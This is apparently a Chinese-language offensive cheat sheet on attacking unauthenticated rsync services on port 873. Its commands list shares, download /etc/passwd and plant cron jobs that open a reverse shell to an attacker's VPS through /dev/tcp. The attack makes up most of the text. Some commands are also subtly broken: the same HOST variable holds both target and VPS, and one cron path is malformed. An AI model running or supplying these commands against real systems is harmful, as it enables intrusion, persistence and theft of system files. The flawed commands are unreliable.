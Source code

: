 # 873 Rsync

## Rsync 未授权访问

如果 rsync 服务存在未授权访问，可以直接使用 rsync 命令进行连接。

```bash
HOST=; PORT=873; # TARGET HOST INFO
```

```bash
rsync rsync://$HOST:$PORT/
```

## Rsync 文件上传

如果 rsync 服务存在未授权访问，可以通过写入计时任务获取目标主机操作权限或下载服务器文件，也可以通过控制下发的内容，影响接收文件的主机。

```bash
HOST=; PORT=873; # TARGET HOST INFO
```

```bash
# 上传本地计时任务反弹 Shell

HOST=;PORT=6789; # VPS INFO

# 系统级计划任务
echo "* * * * * root /bin/bash -i >& /dev/tcp/$HOST/$PORT 0>&1" > reverse_shell
rsync -av reverse_shell rsync://$HOST:$PORT/src/etc/cron.d/reverse_shell

# 用户级计划任务
echo "* * * * * /bin/bash -i >& /dev/tcp/$HOST/$PORT 0>&1" > reverse_shell_root
rsync -av reverse_shell_root rsync://$HOST:$PORT/src/etc/cron.d/var/spool/cron/root
```

## Rsync 文件下载

```bash
HOST=; PORT=873; # TARGET HOST INFO
```

```bash
rsync -av rsync://$HOST:$PORT/src/etc/passwd ./passwd.downloaded
```
